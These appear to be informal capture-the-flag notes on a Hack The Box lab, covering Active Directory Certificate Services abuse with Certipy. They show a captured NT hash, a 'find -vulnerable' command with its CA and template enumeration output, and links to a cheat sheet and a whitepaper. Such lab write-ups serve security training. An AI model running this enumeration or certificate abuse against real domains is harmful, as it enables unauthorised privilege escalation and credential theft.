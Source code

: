 if cipher text error reset the machine some mf might have messed it up

[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce


# cheat sheet certipy
https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services


# resume of whitepaper with white paper link
https://posts.specterops.io/certified-pre-owned-d95910965cd2
try hack me room makes it make sense room:  CVE-2022-26923 -> patched cve not in the box but still uses certipy and helps you understand
AD Certificate Templates (room) helps you understand certificate templates



# enumerating certificates

└> ./bin/python3 certipy/entry.py find -k -dc-ip '10.10.11.51' -target 'dc01.sequel.htb' -enabled -vulnerable -stdout 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True